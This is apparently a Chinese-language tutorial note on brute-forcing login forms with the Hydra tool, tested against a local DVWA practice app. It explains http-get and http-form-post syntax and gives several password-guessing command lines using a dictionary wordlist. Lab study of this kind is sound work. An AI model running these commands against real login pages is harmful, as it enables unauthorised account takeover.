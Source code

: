 使用dvwa测试

```
root in /opt λhydra -l admin -p Blasting_dictionary-master/3389爆破字典.txt 127.0.0.1 http-get "/dvwa/vulnerabilities/brute:username=admindfaf&password=password&Login=Login :Username and/or password incorrect."
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-23 21:00:41
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-get://localhost:80/dvwa/vulnerabilities/brute:username=admindfaf&password=password&Login=Login :Username and/or password incorrect.

```



### post

需要指定模块，通过`hydra -U http-form-post`查看具体使用方法

syntax：`<url>:<form parameters>:<condition string>[:<optional>[:<optional>]`

1. url 被爆破的uri，不带有schema

2. form parameters使用占位符自动使用Base64编码，username：`^USER^`，password：`^PASS^`

3. conditoin string用来校验登入是否成功的字段(放入可能是登入校验失败的字段)。登入校验失败字段可以是`F=`，但是登入校验成功字段必须以`S=`开头

4. 可选参数

   `H|h` 修改请求头

   - H

     会替换请求头中的参数如果原来的请求头中有对应key

   - h

     加在请求的最后

example:

```
"/login.php:user=^USER^&pass=^PASS^:incorrect"
 "/login.php:user=^USER64^&pass=^PASS64^&colon=colon\:escape:S=authlog=.*success"
 "/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
 "/:user=^USER&pass=^PASS^:failed:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^:H=User-Agent\: wget"
 "/exchweb/bin/auth/owaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:reason=:C=/exchweb"
```

```
hydra -l admin -p password localhost http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Location\:index.php"
```

```
root in /opt λhydra -l admin -P  Blasting_dictionary-master/3389爆破字典.txt  localhost http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&user_token=02f5d9d2aaf7141635744753efa7f04d:S=index"
```











